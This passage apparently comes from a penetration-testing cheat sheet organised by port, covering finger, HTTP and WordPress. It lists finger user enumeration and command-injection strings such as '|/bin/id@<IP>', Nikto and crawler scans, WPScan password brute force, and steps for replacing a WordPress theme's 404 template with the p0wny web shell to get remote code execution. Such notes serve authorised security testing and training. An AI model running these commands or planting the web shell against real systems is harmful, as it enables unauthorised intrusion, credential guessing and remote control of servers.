 ### DNS brute force

```
https://github.com/blark/aiodnsbrute
```

---

## FINGER - 79

### User enumeration

```
finger @<IP>
finger <USER>@<IP>
```

### Command execution

```
finger "|/bin/id@<IP>"
finger "|/bin/ls -a /<IP>"
```

---

## HTTP - HTTPS - 80 - 443

### Automatic scanners

```
nikto -h <URL>
python crawleet.py -u <URL> -b -d 3 -e jpg,png,css -f -m -s -x php,txt -y --threads 20
```

### Wordpress

```
# Scan
wpscan --rua -e --url <URL>

# Brute force user(s)
wpscan --rua --url <URL> -P <PASSWORDS_LIST> -U "<USER>,<USER>"
```

#### Wordpress panel RCE

```
Modifying a php from the theme used (admin credentials needed)

Appearance -> Editor -> 404 Template (at the right)
Change the content for a php shell
https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
http://<IP>/wp-content/themes/twentytwelve/404.php
```
